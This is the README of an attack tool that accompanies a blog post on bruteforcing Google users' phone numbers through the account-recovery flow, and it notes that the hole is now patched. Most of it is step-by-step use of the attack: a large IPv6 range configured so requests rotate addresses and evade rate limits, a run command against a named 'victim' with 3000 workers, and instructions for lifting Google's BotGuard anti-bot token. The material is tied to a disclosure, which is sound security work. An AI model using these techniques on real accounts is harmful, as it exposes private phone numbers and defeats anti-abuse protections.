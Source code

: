 
# gpb

This repo contains files relevant to my blog post [Bruteforcing the phone number of any Google user](/articles/leaking-google-phones).

> [!IMPORTANT]  
> This vulnerability has already been patched and as such, this program will no longer work.

### Setting up IPv6

The following steps require a server with a /48 IPv6 range. Most VPS providers provide IPv6 ranges routed to your server (ex. [BuyVM](https://buyvm.net/), [Vultr](https://vultr.com/), [Netcup](https://www.netcup.com/en), [Aeza](https://aeza.net/) etc.)

**View your network interface**

```
root@server:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: ens3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 52:54:00:f1:e7:db brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 88.54.35.66/32 brd 77.239.124.111 scope global ens3
       valid_lft forever preferred_lft forever
    inet6 2a03:dead:beef::2/48 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::5054:ff:fef1:e7db/64 scope link
       valid_lft forever preferred_lft forever
```

From this, my interface is ens3 and my IPv6 range is 2a03:dead:beef::/48

> For the following steps, replace ens3 and 2a03:dead:beef::/48 with your network interface and IPv6 range accordingly.

**Install ndppd**

```bash
sudo apt update && sudo apt install ndppd -y
```

Edit /etc/ndppd.conf to the following:

```
route-ttl 30000

proxy ens3 {
    router no
    timeout 500
    ttl 30000

    rule 2a03:dead:beef::/48 {
        static
    }
}
```

Run the following commands:

```bash
# Restart the service
service ndppd restart

# Add route
ip route add local 2a03:dead:beef::/48 dev ens3

# Open ip_nonlocal_bind for binding any IP address:
sysctl net.ipv6.ip_nonlocal_bind=1
```

You can now test that IPv6 works properly with curl:

```
$ curl --interface 2a03:dead:beef::cafe ipv6.ip.sb
2a03:dead:beef::cafe
```

### Installation

Install dependencies

```bash
# Install Rust
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
<snip>
$ . "$HOME/.cargo/env" 

# Install required dependencies
sudo apt install pkg-config libssl-dev gcc -y
```

Compile the program

```bash
$ git clone https://github.com/ddd/gpb
$ cd gpb
$ cargo build --release
```

Update ulimit 

```
ulimit -n 1000000
```

### Usage

In this example, the victim's google account display name is "Henry Chancellor" and the Google account forgot password flow gives the phone mask `•• ••••••50`.

```
$ ./target/release/gpb -m full -f Henry -l Chancellor -s "2a03:dead:beef::/48" -M "•• ••••••50" -w 3000 -b "<botguard_token_here>" 
```

-w is the worker count. You can increase/decrease this depending on how many CPU cores your machine has. The more workers, the longer the program may take to start (as it has to create a [reqwest::Client](https://docs.rs/reqwest/latest/reqwest/struct.Client.html) for each worker)

### Obtaining the BotGuard token (manual)

> To automatically obtain the botguard token, use the [bg_gen](https://github.com/ddd/gpb/tree/main/tools/bg_gen) tool

For the botguard token, visit the [JS-enabled username recovery page](https://accounts.google.com/signin/v2/usernamerecovery?hl=en), Open DevTools. Enter any email/number and any first/last name.

You should see a POST request to `https://accounts.google.com/_/lookup/accountlookup`.

Copy the botguard request token within the bgRequest query parameter. You may need to URL decode the parameter value.

```
bgRequest: ["username-recovery","botguard_token_will_be_here"]
```








